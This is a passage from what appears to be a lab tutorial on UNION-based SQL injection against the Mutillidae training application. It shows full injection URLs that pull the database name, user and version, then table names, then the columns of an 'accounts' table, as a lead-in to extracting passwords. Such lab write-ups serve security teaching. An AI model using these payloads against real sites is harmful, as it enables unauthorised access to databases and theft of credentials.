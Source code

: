 
- After adding the order by 6 into the existing url , the following error statement will be obtained:


- When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

- As it is having 5 columns the query worked fine and it provides the correct result


- Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union


- As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.


- Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
```
- The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

- Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’
```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
```

- The url once executed will retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords
- When the attacker knows table names, he needs to discover what the column names are to extract data.

- In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

- Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

- Here we are trying to extract column names from the “accounts” table.




- The column names of the accounts is displayed below for the following url:
```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
```
